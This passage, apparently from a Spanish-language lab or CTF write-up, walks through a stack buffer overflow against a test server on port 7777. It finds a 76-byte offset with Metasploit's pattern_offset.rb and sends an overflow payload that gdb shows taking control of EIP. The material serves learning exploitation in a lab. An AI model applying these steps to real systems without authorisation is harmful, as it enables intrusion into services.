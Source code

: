 Por lo que vamos a identificar su `offset`.

### Identificación del Offset

Para determinar el desplazamiento exacto (`offset`) donde ocurre la `sobrescritura`, usamos `pattern_offset.rb`, proporcionando la dirección en hexadecimal obtenida del `EIP`:

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x63413563
```

Info:

```
[*] Exact match at offset 76
```

Esto indica que el `offset` es de `76` bytes.

Por lo que vamos a hacerlo un poco mas automatico con `python2` y enviar comandos de una sola vez, vamos a ver si realmente se llena de `B(42)` el `EIP` de la siguiente forma.

Vamos a poner `run` en el `gdb` para que este a la escucha el `server` y en nuestro `host` pondremos lo siguiente.

```shell
python2 -c 'print b"A"*76 + b"B"*4' | ./sender <IP> 7777
```

Info:

```
Conectado al servidor en 172.17.0.3:7777
Introduce los datos para enviar: Datos enviados: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Si ahora nos vamos al `gdb` veremos lo siguiente:

```
Starting program: /home/alex/server 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Servidor escuchando en el puerto 7777...
Conexión aceptada de 172.17.0.1:41490
Datos recibidos: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Procesado: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 EAX  0x5d
 EBX  0x41414141 ('AAAA')
 ECX  0
 EDX  0
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0xa212
 EBP  0x41414141 ('AAAA')
 ESP  0xffffd2e0 —▸ 0xffff000a ◂— 0
 EIP  0x42424242 ('BBBB')
─────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────
Invalid address 0x42424242


```